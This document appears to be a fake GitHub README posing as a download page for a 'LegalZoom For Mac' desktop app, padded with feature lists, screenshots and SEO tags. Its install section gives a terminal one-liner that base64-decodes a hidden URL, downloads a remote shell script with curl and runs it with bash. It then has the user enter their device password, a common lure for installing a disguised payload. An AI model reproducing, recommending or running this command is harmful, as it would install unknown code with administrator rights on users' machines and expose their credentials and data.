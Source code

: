 # LegalZoom For Mac — Download For macOS 😊
![LegalZoom Logo](https://www.chamberofcommerce.org/wp-content/uploads/2023/08/LegalZoom_Logo-1024x324.png) 

LegalZoom For Mac is a streamlined desktop app designed to simplify legal document creation, business formation, and attorney consultations for macOS users. Access tools for LLC formation, wills, trademarks, and more, all from a user-friendly interface. Follow the instructions below to download and install LegalZoom For Mac effortlessly. 

[![Download Now](https://img.shields.io/badge/Download-Now-005F6B?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/lzoom)

If you encounter issues downloading via the button above, follow the terminal command instructions below.

## 📦 How to Install LegalZoom For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 📝 **Legal Document Creation**: Generate wills, trusts, contracts, and more with guided templates.
- 🏢 **Business Formation**: Form LLCs, corporations, or DBAs with step-by-step tools.
- 🤝 **Attorney Consultations**: Connect with vetted attorneys for personalized legal advice.
- 🔍 **Trademark & Copyright**: Register and protect intellectual property with ease.
- 📊 **Dashboard Access**: Manage documents, track orders, and view updates in one place.
- 💻 **macOS Optimization**: Native app with distraction-free windows and multi-account support.

## About LegalZoom For Mac

LegalZoom For Mac is a powerful desktop application that brings LegalZoom’s trusted online legal services to macOS, offering tools for creating legal documents, forming businesses, and accessing attorney advice. Designed for entrepreneurs, small business owners, and individuals, it simplifies complex legal processes like LLC formation, trademark registration, and estate planning. With a native macOS app, users enjoy a seamless experience optimized for Apple Silicon and macOS 14.0 Sonoma or later, complete with Finder integration and a distraction-free interface. all-products.html)

The app provides access to LegalZoom’s extensive library of customizable legal forms, including wills, living trusts, and business contracts, all created through guided questionnaires that take minutes to complete. Users can track the status of their LLC filings, download documents, and connect with customer care or attorneys directly from the app. LegalZoom For Mac supports both personal and business needs, making it ideal for those searching for “macOS legal software,” “LegalZoom download,” or “business formation tools.” Its free tier allows basic document creation and account management, with premium services available for advanced needs. 

Security and reliability are at the core of LegalZoom For Mac, with a commitment to accuracy and customer satisfaction. If a filing is rejected due to LegalZoom’s error, corrections are made at no additional cost. The app integrates with macOS notifications and supports multiple accounts, making it easy to switch between personal and business profiles. Unlike traditional legal services, LegalZoom offers transparent pricing and a centralized dashboard for managing documents and orders, ensuring a user-friendly experience for macOS users. 

LegalZoom For Mac empowers users to navigate legal processes without the complexity of hiring a lawyer, though attorney consultations are available for those needing expert guidance. Its SEO-optimized presence ensures discoverability for those seeking affordable legal solutions on macOS. Whether you’re starting a business, protecting intellectual property, or planning your estate, LegalZoom For Mac delivers a professional, accessible platform to meet your legal needs efficiently. 

## Advantages of LegalZoom For Mac

- 📋 **Guided Legal Forms**: Create legal documents quickly with user-friendly templates.
- 💻 **Native macOS App**: Optimized for macOS with seamless Finder integration.
- 🛡️ **Trusted Accuracy**: Free corrections for filings rejected due to LegalZoom errors.
- ⚖️ **Attorney Access**: Connect with vetted attorneys for personalized advice.
- 🆓 **Free Tier Available**: Start with basic document creation at no cost.
- 📈 **Business Tools**: Streamline LLC formation, trademarks, and compliance tasks.

## 🖼 Preview

![Document Creation](https://www.werockyourweb.com/wp-content/uploads/legalzoom-user-interface-screenshot-png-1.png)  
*Generate legal documents like wills and contracts with guided templates.*

![Business Formation](https://www.smbguide.com/wp-content/uploads/2024/01/legalzoom-dashboard.png)  
*Form LLCs or corporations with step-by-step guidance.*

![Dashboard View](https://i.postimg.cc/5tY0nG7W/legalzoom-dashboard.png)  
*Manage documents and track orders from a centralized dashboard.*

![Attorney Consultation](https://i.postimg.cc/0yWqH1mQ/legalzoom-attorney.png)  
*Connect with attorneys for expert legal advice.*

## 🔍 Tags

legalzoom, legal zoom, legalzoom llc, legal zoom log in, legalzoom download, legalzoom mac, legalzoom app, legalzoom desktop, legalzoom free, legalzoomlogin, free legal software macOS, LegalZoom download, macOS business formation, legal document creator mac, LegalZoom For Mac download, free estate planning mac, trademark registration mac, LLC formation software, macOS productivity tools, attorney consultation mac, legal forms mac, LegalZoom free mac
